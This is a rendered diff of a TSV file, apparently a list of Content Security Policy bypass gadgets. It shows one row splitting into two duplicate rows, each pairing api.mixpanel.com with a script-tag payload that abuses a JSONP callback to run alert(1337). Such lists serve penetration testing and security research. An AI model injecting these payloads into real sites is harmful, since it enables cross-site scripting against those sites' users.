

Before and after one commit to asuspctow/csp, a TSV file: domin.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; removed rows and columns are numbered as before the commit, all else as after; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update domin.tsv

```diff
--- a/domin.tsv
+++ b/domin.tsv
-row 172: api.mixpanel.com <script src="https://api.mixpanel.com/track/?callback=alert(1337)"></script>
+row 172: api.mixpanel.com | <script src="https://api.mixpanel.com/track/?callback=alert(1337)"></script>
+row 173: api.mixpanel.com | <script src="https://api.mixpanel.com/track/?callback=alert(1337)"></script>
```
